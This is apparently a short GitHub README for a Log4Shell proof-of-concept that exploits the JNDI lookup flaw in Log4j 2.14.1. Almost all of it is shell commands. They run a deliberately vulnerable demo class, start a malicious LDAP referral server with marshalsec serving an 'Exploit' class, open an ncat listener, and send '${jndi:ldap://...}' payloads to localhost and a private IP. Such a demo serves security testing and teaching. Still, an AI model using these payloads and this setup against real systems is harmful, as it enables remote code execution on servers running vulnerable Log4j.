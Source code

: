 

# Log4j-1.x.x



# Log4j-2.x.x

```bash
export CLASSPATH="lib/log4j-api-2.14.1.jar:lib/log4j-core-2.14.1.jar:target/classes"
java -cp $CLASSPATH au.com.tyo.logpoc.Innocent
```

# Test

## LDAP Server

### Using Marshalsec

```bash
cd ldap
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit" 8888
```

### Using NCAT
```
ncat -k -vv -c "echo ---CONNECTION [%NCAT_REMOTE_PORT%]--- 1>&2" -l 7777
```

## Exploit

```bash
java -cp $CLASSPATH au.com.tyo.logpoc.Innocent '${jndi:ldap://localhost:8888/Exploit}'
```

```bash
java -cp $CLASSPATH au.com.tyo.logpoc.Innocent '${jndi:ldap://localhost:7777/Exploit}'
java -cp $CLASSPATH au.com.tyo.logpoc.Innocent '${jndi:ldap://192.168.65.214:7777/Exploit}'

```
## Maintainer 

[Eric Tang](https://www.twitter.com/_e_tang)

